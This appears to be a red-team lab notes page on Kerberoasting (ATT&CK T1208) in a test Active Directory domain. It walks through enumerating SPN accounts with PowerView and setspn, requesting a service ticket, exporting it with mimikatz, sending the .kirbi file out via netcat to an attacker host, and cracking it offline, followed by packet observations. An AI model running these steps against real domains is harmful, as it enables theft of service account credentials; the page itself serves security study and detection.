 ```yaml
---
description: Credential Access
---
```


# T1208: Kerberoasting

## Execution

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set:

![](../.gitbook/assets/kerberoast-principalname.png)

Attacker setting up an nc listener to receive a hash for cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
nc -lvp 443 > kerberoast.bin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Attacker enumerating user accounts with `serverPrincipalName` set:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/kerberoast-enumeration.png)

Additionally, user accounts with SPN set could be extracted with a native windows binary:

```text
 setspn -T medin -Q */*
```

![](../.gitbook/assets/kerberoast-setspn.png)

Attacker requesting a kerberos ticker for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/kerberoast-kerberos-token.png)

Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # kerberos::list /export
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/kerberoast-exported-kerberos-tickets.png)

Attacker sends the exported service ticket to attacking machine for offline cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Cracking the Ticket

Attacker brute forces the password of the service ticket:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
python2 tgsrepcrack.py pwd kerberoast.bin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/kerberoast-cracked.png)

## Observations

Below is the screenshot showing a request being sent to the `Ticket Granting Service` \(TGS\) for the service with a servicePrincipalName `HTTP/dc-mantvydas.offense.local` :

![](../.gitbook/assets/kerberoast-tgs-req.png)

Below is the response from the TGS for the user `spotless` \(we initiated this attack from offense\spotless\) which contains the encrypted kerberos ticket to access the `HTTP/dc-mantvydas.offense.local` service, which is encrypted with RC4 and it's the one that was cracked with [tgsrepcrack.py](t1208-kerberoasting.md#cracking-the-ticket):

![](../.gitbook/assets/kerberoast-tgs-res.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1208\",\"type\":\"link\",\"title\":\"Kerberoasting - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://github.com/nidem/kerberoast\",\"type\":\"link\",\"title\":\"nidem/kerberoast\",\"description\":\"Contribute to kerberoast development by creating an account on Github.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://github.com/fluidicon.png\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://avatars3.githubusercontent.com/u/4877511?s=400&v=4\",\"width\":365,\"height\":365,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/\",\"type\":\"link\",\"title\":\"Extracting Service Account Passwords with Kerberoasting \| Insider Threat\",\"description\":\"Kerberoasting is effective for extracting service account credentials from Active Directory without needing elevated rights or causing domain traffic.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2016/06/cropped-Logo\_STEALTHbits\_Orb\_Blue\_250x250-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2017/05/Blog2-banner-Extract-Service-Account-Passwords-Kerberoasting1024x326.jpg\",\"width\":1024,\"height\":326,\"aspectRatio\":0.318359375}}" %}

{% embed data="{\"url\":\"https://blog.xpnsec.com/kerberos-attacks-part-1/\",\"type\":\"link\",\"title\":\"Kerberos AD Attacks - Kerberoasting\",\"description\":\"Recently I\'ve been trying to make sure that my redteam knowledge is up to date, exploring many of the advancements in Active Directory Kerberos attacks... and there have been quite a few! I finally found some free time this week to roll up my sleeves and dig into the internals\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.xpnsec.com/assets/favicon/android-icon-192x192.png?v=94d6be4395\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.xpnsec.com/content/images/2017/09/cerberos-1.jpg\",\"width\":615,\"height\":539,\"aspectRatio\":0.8764227642276423}}" %}

